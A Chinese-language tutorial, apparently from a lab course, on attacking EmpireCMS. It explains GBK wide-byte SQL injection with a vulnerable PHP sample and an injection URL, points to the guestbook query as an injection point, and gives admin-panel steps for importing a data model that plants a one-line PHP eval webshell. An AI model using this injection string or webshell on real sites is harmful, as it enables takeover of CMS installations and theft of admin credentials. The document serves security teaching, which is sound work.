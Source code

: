 # 帝国CMS漏洞利用

由于帝国CMS属于免费、开源的CMS、所以受到很多学校以及小型企业的喜爱，但是帝国CMS的漏洞确实层出不穷，下面我们就开始看看如何通过后台getshell。

首先，由于帝国CMS存在sql宽字节注入漏洞，首先了解一下什么是sql宽字节注入，宽字节注入是相对于单字节注入而言的，单字节注入就是大家常用的直接在带有参数id的url后面添加sql语句进行注入，比如：

```
www.xxxx.com/xxx.php?id=1 and 1=1 %23
```
就是典型的单字节注入，可是当php在开启magic_quotes_gpc，或者是使用addslahes、iconv等函数后，单引号（'）会被转义成(/')，字符%bf会变成%bf/'，然后反斜杠（/）的16进制编码是%5c，单引号（'）的16进制编码是%27，所以 %bf/'就会被转义成%bf%5c%27,然后如果程序的默认字符集是GBK等宽字节字符集，则Mysql会认为这是一个宽字符，也就是'縗'。
例如

```
<?php
$conn=mysql_connect("localhost","root","hackest");
mysql_query("SET NAMES 'GBK'");
mysql_select_db("test",$conn);
$user=mysql_escape_string($_GET['user']);
$pass=mysql_escape_string($_GET['pass']);
$sql="select * from cms_user where username='$user' and password='$pass'";
$result=mysql_query($sql,$conn);
while ($row=mysql_fetch_array($result, MYSQL_ASSOC)) {
$rows[]=$row;
}
?>
```
就可以通过构造语句为
```
http://www.xxx.com/login.php?user=%df' or 1=1 limit 1,1#' and password=''
```






下面我来们查看留言本文件的代码

```
//权限
if($gbr['groupid'])
{
include("../../class/user.php");
$user=islogin();
include("../../class/MemberLevel.php");
if($level_r[$gbr[groupid]][level]>$level_r[$user[groupid]][level])
{
echo"<script>alert('您的会员级别不足(".$level_r[$gbr[groupid]][groupname].")，没有权限提交信息!');history.go(-1);</script>";
exit();
}
}
esetcookie("gbookbid",$bid,0);
$bname=$gbr['bname'];
$search="&bid=$bid";
$page=(int)$_GET['page'];
$start=(int)$_GET['start'];
$line=12;//每页显示条数
$page_line=12;//每页显示链接数
$offset=$start+$page*$line;//总偏移量
$totalnum=(int)$_GET['totalnum'];
if($totalnum)
{
$num=$totalnum;
}
else
{
$totalquery="select count(*) as total from {$dbtbpre}enewsgbook where bid='$bid' and checked=0";
$num=$empire->gettotal($totalquery);//取得总条数
}
$search.="&totalnum=$num";
$query="select lyid,name,email,`call`,lytime,lytext,retext from {$dbtbpre}enewsgbook where bid='$bid' and checked=0";
$query=$query." order by lyid desc limit $offset,$line";
$sql=$empire->query($query);
$listpage=page1($num,$line,$page_line,$start,$page,$search);
$url="<a href=../../../>".$fun_r['index']."</a> > ".$fun_r['saygbook'];
?>


```

可以观察到在$query 中的sql语句其实与上述的实例中的语句相似，所以我们可以通过在留言板构造sql语句进行注入，但是由于涉及到可能会影响其他网站的安全性，我们在这里不进行更深的讲解。通过sql注入拿到管理员账号密码之后，我们可以进行猜解后台路径，一般来说为路径都为/e/admin/。
进入后台后，在系统设置栏点击数据表与系统模型-管理数据表-导入数据模型，这个时候我们就要编写一句话木马了。建立shiyanlou.php.mod,写入一句话为：

```
<?fputs(fopen("shiyanlou.php","w"),"<?eval(\$_POST[2333]);?>")?>
```
![](/img/diguo-1.gif)


随后导入该模板，发现在`/var/www/html/upload/e/admin/` 目录下出现了shiyanlou.php 一句话。
![](/img/diguo-2.gif)
之后使用菜刀连接就可以了。